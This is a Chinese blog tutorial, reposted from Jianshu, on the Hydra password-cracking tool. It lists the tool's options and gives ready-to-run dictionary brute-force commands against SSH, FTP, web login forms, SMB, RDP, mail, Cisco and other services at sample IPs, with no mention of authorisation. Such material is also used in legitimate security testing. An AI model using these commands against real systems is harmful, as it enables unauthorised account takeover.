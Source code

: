 ```yaml
---
title: hydra简单使用
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '/medias/1.jpg' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/gz_3.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: 工具
tags: 渗透工具
top: false
---
```




# hydra简单使用

#### **[本文转载于CSDN]([hydra的使用教程 - 简书 (jianshu.com)](https://www.jianshu.com/p/abe573b057fb))**



**先列出hydra的参数：**

-s PORT 可通过这个参数指定非默认端口。

-l LOGIN 指定破解的用户，对特定用户破解。

-L FILE 指定用户名字典。

-p PASS 小写，指定密码破解，少用，一般是采用密码字典。

-P FILE 大写，指定密码字典。

-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。

-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。

-M FILE 指定目标列表文件一行一条。

-o FILE 指定结果输出文件。

-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。

-t TASKS 同时运行的线程数，默认为16。

-w TIME 设置最大超时的时间，单位秒，默认是30s。

-v / -V 显示详细过程。

server 目标ip



service 指定服务名，支持的服务和协议：

```
telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等
```

。



OPT 可选项

**使用教程如下：**

1.手动创建用户名字典和密码字典，这里只是为了演示，只加了几个用户名和弱口令。真正破解时，需要利用密码字典生成器生成强大的字典。

![img](https://upload-images.jianshu.io/upload_images/18666744-c90684b479fc6354.png?imageMogr2/auto-orient/strip|imageView2/2/w/715/format/webp)

2.破解ssh：

\# hydra -L username.txt -P password.txt -t 1 -vV -ens 192.168.60.117 ssh

其中192.168.60.117是想要破解的电脑IP

![img](https://upload-images.jianshu.io/upload_images/18666744-cea628b826677ae2.png?imageMogr2/auto-orient/strip|imageView2/2/w/866/format/webp)

破解成功，直接显示结果。

![img](https://upload-images.jianshu.io/upload_images/18666744-c1fdb82a98ff373c.png?imageMogr2/auto-orient/strip|imageView2/2/w/912/format/webp)

其它实例：

1.破解ssh：

\# hydra -l 用户名 -p 密码字典 -t 线程-vV -e ns ip ssh

\# hydra -l 用户名 -p 密码字典 -t 线程-o save.log -vV ip ssh

2.

破解ftp：

\# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV

\# hydra ip ftp -l 用户名 -P 密码字典-e ns -vV

3.get

方式提交，破解web登录：

\# hydra -l 用户名 -p 密码字典 -t 线程-vV -e ns ip http-get /admin/

\# hydra -l 用户名 -p 密码字典 -t 线程-vV -e ns -f ip http-get /admin/index.php

4.post

方式提交，破解web登录：

\# hydra -l 用户名 -P 密码字典-s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"

\# hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:wrong username or password"

（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）

5.

破解https：

\# hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

6.

破解teamspeak：

\# hydra -l 用户名 -P 密码字典 -s 端口号-vV ip teamspeak

7.

破解cisco：

\# hydra -P pass.txt 10.36.16.18 cisco

\# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

8.

破解smb：

\# hydra -l administrator -P top100.txt 192.168.0.102 smb

9.

破解pop3：

\# hydra -l muts -P pass.txt my.pop3.mail pop3

10.

破解rdp：

\# hydra 192.168.0.102 rdp -l administrator -P top100.txt -V

11.

破解http-proxy：

\# hydra -l admin -P pass.txt http-proxy://10.36.16.18

12.

破解imap：

\# hydra -L user.txt -p secret 10.36.16.18 imap PLAIN

\# hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN

此工具强大之处远多于以上测试，其密码能否破解关键在于强大的字典，对于社工型渗透来说，有时能够得到事半功倍的效果.

